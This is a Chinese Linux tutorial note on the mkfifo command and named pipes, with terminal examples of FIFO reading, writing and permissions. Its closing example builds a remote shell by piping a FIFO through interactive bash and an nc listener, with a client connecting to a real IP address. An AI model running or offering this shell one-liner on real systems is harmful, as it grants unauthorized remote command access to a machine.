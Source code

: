 # Linux mkfifo管道符

> 也可以使用mknod来生成

## 概述

`mkfifo`命令用于创建FIFO(命名管道符)。

**命名管道符 VS 匿名管道符**

==管道符用于创建程序之间的通信通道==（管道相当于一个通道，使用FIFO策略）

- 匿名管道符`|`
- 我们使用`mkfifo`来创建命名管道符

> 我们可以使用匿名管道符来传递数据，但是这中方式有一个缺陷。只能由同一个祖先进程启动。所以我们可以使用命名管道符（在Linux一切皆文件）

```
terminal01
root in /opt/test λ mkfifo pipe2 #创建一个命名管道符
root in /opt/test λ ll
|rw-r--r-- root root 0 B Thu Jan  7 07:25:45 2021  pipe2     
root in /opt/test λ echo "hello to pipe2" > pipe2  #将需要传输的内容写入管道中，由于是echo进程启动的，所以管道符会一直阻塞echo进程，知道管道符中的内容被读取

----

terminal02
root in ~ λcat < /opt/test/pipe2 #读取管道中内容
       STDIN
   1   hello to pipe2 

```

管道符有三种权限策略（与文件权限相同），我们可以通过`-m`参数来指定

```
root in /opt/test λ mkfifo pipe2 -m 700                                  /0.0s
root in /opt/test λ ll
|rwx------ root root 0 B Thu Jan  7 07:35:53 2021  pipe2                /0.0s
```

## 案例

使用nc创建管道符，实现reserveshell

```
#server side 
root in /tmp mkfifo /tmp/pipe2
root in /tmp λ cat /tmp/pipe2 | /bin/bash -i 2&>1  | nc -l 10086 > /tmp/pipe2 

#client side 
root in /opt/test λ nc 8.135.0.171 10086
```

